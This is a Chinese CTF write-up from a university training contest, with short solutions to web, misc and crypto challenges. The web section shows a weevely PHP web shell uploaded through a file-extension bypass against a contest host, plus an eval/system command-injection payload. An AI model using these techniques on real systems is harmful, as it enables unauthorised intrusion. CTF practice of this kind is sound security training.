



layout: post
title: 四川大学CTF实训杯wp
author: junyu33
mathjax: true
categories: 

  - ctf

tags:

- web
- crypto
- misc

date: 2022-7-21 16:00:00

---

就是课上讲的那点东西，比我一年前备战校测的内容还要简单。

<!-- more -->

## WEB

### Easy_Flag 					

ctrl+u，查看源代码：

```html
<meta http-equiv="" content=""  charset="utf-8"/>
空空如也～
<!--flag.php-->
<script type="text/javascript" charset="utf-8">
    
    document.oncontextmenu = function() {
        event.returnValue = false;
        alert('想看代码？');
    };
   
    document.onkeydown = document.onkeyup = document.onkeypress = function(event) {
        let e = event || window.event || arguments.callee.caller.arguments[0];
        if (e && e.keyCode == 123) {
            e.returnValue = false;
            alert('没想到吧，这也不行？');
            return false;
        }
    };
</script>
```

按照提示查看/flag.php即可。

### Easy_Button

f12将`maxlength`改为50，hackbar里面随便post一个手机号。

如`phone=12312312312`

### Easy_Browser

查看源码：

```html
    <html>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
    <body>
        页面什么也没有
        <!--看看cookie里有什么-->
    </body>
    </html>
```

按照提示查看cookie



访问/get.php，要求提交一个参数名为flag，参数值为1的数据。

`/get.php?flag=1`

### 旋转的木马 					

盲猜upload.php，发现提供了上传图片的按钮。

我这里是linux，没法装蚁剑，这里使用weevely。

```shell
weevely generate 1234 ./114514.php
mv 114514.php 114514.jpg
```

提交时使用burp抓包，将后缀再改回php即可。

```shell
weevely http://47.116.24.9:81/upload/114514.php 1234
```

进入shell之后

```shell
ls
cat flag_859421239.txt
```

### 抽奖游戏 					

抽奖之后抓包：

```http
GET /ctf4/check.php?tar=12&sign= HTTP/1.1
Host: 47.116.24.9
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://47.116.24.9/ctf4/game.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sign=md5(tar)
Connection: close
```

盲猜`tar=flag`，然后`sign=md5('flag')=327a6c4304ad5938eaf0efb6cc3e53dc`

把`GET`参数修改后提交即可。

### Rceeeee

过滤逃逸： 	

`?data=eval($_GET[1]);&1=system('ls');`			

剩下的自己看着办。

## Misc

### 葫芦娃

解压后改png图片高度。



### File_Error 					

这是一个zip文件，是一个伪加密。



### shark

题目说flag只靠搜，那就直接搜呗。

```shell
cat webone.pcap | grep -a flag
```

## Crypto

### 签到题

urldecode

https://www.urldecoder.io/

### 栅栏围墙

栅栏密码

https://www.qqxiuzi.cn/bianma/zhalanmima.php

每组字数9

### 罗密欧与朱丽叶

盲文密码、猪圈密码和圣堂武士密码的结合，一个一个解就行。